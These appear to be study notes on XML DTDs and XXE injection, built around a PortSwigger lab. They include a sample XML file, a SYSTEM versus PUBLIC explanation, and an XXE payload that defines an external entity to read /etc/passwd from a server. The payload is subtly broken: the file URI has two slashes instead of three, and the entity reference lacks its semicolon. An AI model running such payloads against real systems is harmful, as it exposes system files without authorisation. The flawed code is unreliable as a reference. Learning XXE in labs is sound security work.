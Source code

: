 Reference the external DTD using the `SYSTEM` identifier

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE body SYSTEM "user.dtd">

<body>
    <user>
        <username>Chen xing</username>
        <age>18</age>
        <address>Singapore</address>
    </user>
    <admin>
        <username>Ong zhengjie</username>
        <age>24</age>
        <address>USA</address>
    </admin>
</body>
```

### Difference between SYSTEM and PUBLIC

Both SYSTEM and PUBLIC are used to reference external entities, but the difference lies in their usage: SYSTEM is used to reference a private, local, or custom-defined DTD, while PUBLIC is used to reference a public, standard DTD.&#x20;

You can think of PUBLIC as being used for DTDs that are publicly available in online repositories and have a fixed identifier.

## XXE to retrieve files

Simplied use `SYSTEM` identifer and construct a malicious entity

Lab from portswigger:

<pre><code>&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;stockCheck>&#x3C;productId>
<strong>1&#x3C;/productId>&#x3C;storeId>2&#x3C;/storeId>&#x3C;/stockCheck>
</strong></code></pre>

and we modifed the XML, added in the `SYSTEM` identifer to read files from `/etc/passwd`

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
<!ENTITY xxe SYSTEM "file://etc/passwd">
]>
<stockCheck><productId>&xxe</productId><storeId>2</storeId></stockCheck>
```
